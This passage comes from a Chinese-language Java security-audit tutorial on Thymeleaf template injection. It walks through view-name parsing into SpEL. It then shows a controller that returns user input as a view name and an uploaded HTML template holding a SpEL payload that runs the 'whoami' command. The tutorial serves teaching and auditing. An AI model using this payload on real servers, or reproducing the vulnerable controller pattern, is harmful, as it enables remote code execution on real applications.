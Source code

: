 ```java
                throw new IllegalArgumentException("Invalid template name specification: '" + viewTemplateName + "'");
            } 
            
            FragmentExpression.ExecutedFragmentExpression fragment = FragmentExpression.createExecutedFragmentExpression((IExpressionContext)context, fragmentExpression);
            
            templateName = FragmentExpression.resolveTemplateName(fragment);
            markupSelectors = FragmentExpression.resolveFragments(fragment);
            Map<String, Object> nameFragmentParameters = fragment.getFragmentParameters();
            
            if (nameFragmentParameters != null) {
                
                if (fragment.hasSyntheticParameters())
                {
                    
                    throw new IllegalArgumentException("Parameters in a view specification must be named (non-synthetic): '" + viewTemplateName + "'");
                }

                context.setVariables(nameFragmentParameters);
            } 
        } 
        
       ...
	 }
```

可以发现，这里将模板名称(`viewTemplateName`) 进行拼接 `"~{" + viewTemplateName + "}"`，然后使用`parseExpression`进行解析，继续跟进`parseExpression`就可以发现会对传入的参数进行预处理，最终使用SpEL执行表达式。

所以我们直接令`language`参数的值为一个我们指定的SpEL表达式，就可以实现 RCE：

![20.png](https://github.com/cn-panda/JavaCodeAudit/blob/master/%E3%80%9006%E3%80%91%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86%E4%B8%8E%E5%AE%9E%E9%99%85%E6%A1%88%E4%BE%8B%E4%BB%8B%E7%BB%8D/img/20.png)

那么如果我们假设存在一个可以上传非 jsp 类型文件的漏洞，并且上传的位置可控，控制器的逻辑如下：

```java
@GetMapping("/test")  
public String test(@RequestParam String path) {  
    return "/" + path;  
}
```

因此就可能发生以下情况：

将`test.html`上传到模板文件夹`template`根目录下：
`test.html`内容如下：
```html
<!DOCTYPE html>  
<html lang="en" xmlns="http://www.w3.org/1999/xhtml"  
 xmlns:th="http://www.thymeleaf.org">  
<head>  
    <title>Hello World!</title>  
</head>  
<body>  
<h1 th:inline="text">Hello</h1>  
<p th:text="@{__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec('whoami').getInputStream()).next()}__}"></p>  
</body>  
</html>
```
